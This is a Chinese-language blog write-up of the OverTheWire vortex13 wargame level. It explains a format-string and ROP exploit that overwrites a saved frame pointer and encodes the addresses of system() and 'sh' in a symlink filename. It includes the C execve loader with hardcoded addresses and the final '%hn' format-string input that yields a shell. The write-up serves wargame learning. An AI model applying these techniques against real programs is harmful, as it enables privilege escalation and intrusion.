 ```yaml
---
title: vortex13
author: rk700
layout: post
categories:
  - writeup
tags:
  - OverTheWire
  - exploit
---
```

这道题和vortex12一样是猥琐流……

题目说了栈还是不能执行，所以还是ROP。但这里陷入了思维定式，主要还是因为vortex12的影响，让我觉得还要修改got。但ROP不只是修改got，直接改返回地址也是可以的；而vortex12里也可以在主线程里改返回地址，但那样没用因为主线程已经去掉euid了。这道题的输入限制在20个字符，如果想修改got几乎是不可能的了……

具体地，想要直接修改返回地址为system，还要用两次hn，但20个字符还是不够。于是我们通过修改vuln的stored ebp来跳回到我们指定的地址，接下来leave ret就可以返回我们提供的地址了

另一方面，由于一开始argv和envp都被清空了，所以我们不能把payload放到那里。最后发现，在栈的底部大概0xffffdff0附近，放的是程序的完整路径，链接文件也是链接的路径。这个没有被清空，所以还是猥琐流，把vortex13链接到一个文件名包含所需地址的链接文件即可

还有，argc会检查是否为0，所以我们只能另写一个loader，在里面execve，并且提供argv只包含NULL 

{% highlight c %}
#include <unistd.h>
#include <stdio.h>

int main() {
    char *args[] ={NULL};
    char *envs[] ={NULL};
    char *prog = "./" "\x38\xde\xff\xff" "\xfe\xd0\xff\xff" "\x50\xe7\xe5\xf7" "\x93\x99\xe3\xf7" "\xf4\xdf\xff\xff" " sh";
    //printf("%s\n", prog);
    execve(prog, args, envs);
}
{% endhighlight %}

具体的文件名是：(addr of saved ebp in vuln) + (prev saved ebp) + (addr of system) + (ret addr for system) + (addr of string &#8220;sh&#8221;) + (string &#8220;sh&#8221;)

最后把vortex13链接到我们那个文件，执行 

<pre>$ ./noArg %57316x%116$hn</pre>

其中57316=0xdfe4，是我们的链接文件名的地址后4位, 得到shell
